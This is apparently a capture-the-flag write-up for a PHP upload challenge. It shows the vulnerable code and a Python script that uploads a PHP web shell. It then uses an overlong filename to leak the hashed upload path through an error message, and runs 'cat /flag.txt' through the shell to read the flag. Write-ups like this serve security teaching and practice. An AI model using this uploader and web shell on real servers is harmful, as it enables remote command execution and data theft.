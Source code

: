 ## Title

Upload Fun

## Description

## Solution

Once we access the URL we are presented with the following php:

```php
<?php
    if($_SERVER['REQUEST_METHOD'] == "POST"){
        if ($_FILES["f"]["size"] > 1000) {
            echo "file too large";
            return;
        }

        if (str_contains($_FILES["f"]["name"], "..")) {
            echo "no .. in filename please";
            return;
        }

        if (empty($_FILES["f"])){
            echo "empty file";
            return;
        }

        $ip = $_SERVER['REMOTE_ADDR'];
        $flag = file_get_contents("/flag.txt");
        $hash = hash('sha256', $flag . $ip);

        if (move_uploaded_file($_FILES["f"]["tmp_name"], "./uploads/" . $hash . "_" . $_FILES["f"]["name"])) {
            echo "upload success";
        } else {
            echo "upload error";
        }
    } else {
        if (isset($_GET["f"])) {
            $path = "./uploads/" . $_GET["f"];
            if (str_contains($path, "..")) {
                echo "no .. in f please";
                return;
            }
            include $path;
        }

        highlight_file("index.php");
    }
?>

```

We have two endpoints:
- POST request that accepts a file and it verifies the size, name(filters for `..`) and if its empty.
- GET request that accepts parameter `f`, the only thing that stops us from achieving local file inclusion is the function `str_contains($path, "..")` and not knowing the flag 256, because if we do we can upload a web shell and get a shell in the system.

If we try to upload a shell we get:

```py
import requests
import sys
from io import BytesIO

URL = sys.argv[1]

def uploadFile(filename):
    # Your binary string data
    binary_data = b"""
    <?php
        echo system($_GET["cmd"]);
    ?>
    """

    # Create a BytesIO object to simulate a file
    file_object = BytesIO(binary_data)

    # Prepare the files dictionary with filename control
    files = {'f': (filename, file_object)}

    # Send the POST request with the simulated file
    response = requests.post(URL, files=files)

    # print(response.status_code, response.text)
    return response


r = uploadFile('shell.php')
print(r.text)
``` 

We get: `upload success`
Looking at the move_uploaded_file I notice a strange comment: `make sure that the file name not bigger than 250 characters.` [https://www.php.net/manual/en/function.move-uploaded-file.php]()

However in the php page nothing mentions the size of the file name and its added straight to the path.
Lets send multiple characters, after sending more then 191 characters we get the following error message: 
```html
<br />
<b>Warning</b>:  move_uploaded_file(./uploads/331763d5cb0983f537fb0adcade90717750397b3839c7f844c98eca4ee27fa4d_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA): Failed to open stream: File name too long in <b>/var/www/html/index.php</b> on line <b>22</b><br />
<br />
<b>Warning</b>:  move_uploaded_file(): Unable to move &quot;/tmp/phptR3WCz&quot; to &quot;./uploads/331763d5cb0983f537fb0adcade90717750397b3839c7f844c98eca4ee27fa4d_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&quot; in <b>/var/www/html/index.php</b> on line <b>22</b><br />
upload error
```

We found the path, lets inject a normal shell.php and interact with it in `/uploads/331763d5cb0983f537fb0adcade90717750397b3839c7f844c98eca4ee27fa4d_shell.php`.
We get the flag: `https://upload-fun-okntin33tq-ul.a.run.app/uploads/331763d5cb0983f537fb0adcade90717750397b3839c7f844c98eca4ee27fa4d_shell.php?cmd=cat%20/flag.txt`
Flag: `wctf{h0w_d1d_y0u_gu355_th3_f1l3n4me?_7523015134}`
